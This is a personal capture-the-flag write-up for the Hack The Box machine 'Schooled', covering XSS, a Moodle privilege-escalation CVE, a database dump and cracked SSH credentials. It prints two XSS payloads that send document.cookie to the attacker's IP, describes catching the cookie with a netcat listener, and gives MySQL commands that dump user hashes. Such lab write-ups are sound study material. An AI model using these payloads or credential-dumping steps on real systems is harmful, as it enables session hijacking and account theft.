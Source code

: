 # Schooled - 10.10.10.234

Created: August 24, 2021 9:32 PM

nmap:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled.png)

tech:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%201.png)

domain name:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%202.png)

maybe users:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%203.png)

subdomains:

found moodle. funny thing is that back then i studied with this framework.

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%204.png)

creating new acc: jon@student.schooled.htb

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%205.png)

hella pages pages:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%206.png)

seems like we can upload files:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%207.png)

not working

email found:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%208.png)

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%209.png)

according to vuln it has XXS

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2010.png)

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2011.png)

payload:

```jsx
<script>new Image().src="[http://10.10.16.203/bogus.php?output=](http://10.10.16.1/bogus.php?output=)"+document.cookie;</script>
```

we put a new image element in the html using the script, and we use the image source to a bogus php file on our local machine. The php takes the var output which is the document.cookie, the cookie that stores the login session of the teacher. As the teacher’s browser makes the HTTP request for the image along with the cookie, we can intercept the request by opening a netcat listener on the HTTP port 80 on our local machine and keep waiting.

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2012.png)

kk3qlheaj9lld9lp55l6s2l7la

thats my cookie..

other option:

```jsx
<img src=x onerror=this.src='[https://10.10.16.203/?'+document.cookie;](https://10.10.16.203/?%27+document.cookie;)>
```

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2013.png)

9uvc59pif6o43v76458b46dimm

change cookie:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2014.png)

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2015.png)

users:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2016.png)

according to exploit:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2017.png)

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2018.png)

follow all the steps from:

[https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321)

cmd query:

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2019.png)

shell:

lost interest in writing documentation but after getting shell as www-data  we found the config file of the moodle file -config.php

in it:

```
$CFG->dbname    = 'moodle'
$CFG->dbuser    = 'moodle'
$CFG->dbpass    = 'PlaybookMaster2020'
```

we have moodle.db file and by using mysql :

```
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020
use moodle;
show tables;
select * from mdl_user;
```

break hash with john. we get ssh creds:

jamie:!QAZ2wsx

sudo -l :

![Untitled](Schooled%20-%2010%2010%2010%20234%2056b1f58401444318bd9f8385114b6e80/Untitled%2020.png)